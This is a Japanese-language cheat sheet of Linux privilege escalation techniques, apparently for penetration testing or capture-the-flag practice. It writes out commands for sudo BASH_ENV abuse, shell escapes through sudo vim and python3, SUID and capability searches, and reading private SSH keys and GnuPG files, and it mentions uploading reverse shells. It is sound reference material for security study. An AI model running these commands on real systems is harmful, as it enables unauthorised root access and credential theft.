 # 🛡️ Linux 権限昇格手順まとめ
## 1.Sudo 権限を利用した昇格
### a.実行可能な sudo コマンドを確認

### b.sudo 環境変数汚染（BASH_ENV）
```
echo 'bash -p' > /tmp/exp.sh
```

```
chmod +x /tmp/exp.sh
```

```
sudo BASH_ENV=/tmp/exp.sh /usr/bin/systeminfo
```
### c.環境変数が継承されない場合
```
sudo -s
```
または
```
sudo -i
```
### d.sudo で実行できるエディタやインタプリタの利用

```
sudo /usr/bin/vim -c ':!/bin/sh'
```
```
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
## 2.SUID ビット付きファイルの利用
```
find / -perm -4000 -type f 2>/dev/null
```
例（bashにSUIDがある場合）:
```
/tmp/bash -p
whoami
```
## 3.書き込み可能なファイルやディレクトリの調査
```
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

## 4.Cron ジョブの調査
```
cat /etc/crontab
```

```
ls -la /etc/cron.*
```
```
systemctl list-timers --all
```
## 5.環境変数を悪用した昇格
PATH の改変

LD_PRELOAD や LD_LIBRARY_PATH の利用

特に root で実行されるスクリプトで外部コマンドを呼ぶ場合に有効。

## 6.パスワードや秘密鍵の発見
```
cat ~/.gnupg/*
```
```
cat ~/.ssh/id_rsa
```
## 7.ローカル脆弱性の利用

カーネルの既知の脆弱性を使う（例: Dirty COW、sudoバグなど）

以下のツールを使うと便利:
```
searchsploit

linux-exploit-suggester

linpeas.sh
```
## 8.Webシェルやファイルアップロードを利用した昇格

PHP/Pythonのリバースシェルをアップロード

TTY付きシェルで安定した操作を確保

## 9.その他Tips

### Capability付きファイルの確認
```
getcap -r / 2>/dev/null
```
cap_setuid などがついていれば昇格に使える可能性あり。

### TTYを使ったシェルの安定化（Python）
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

```
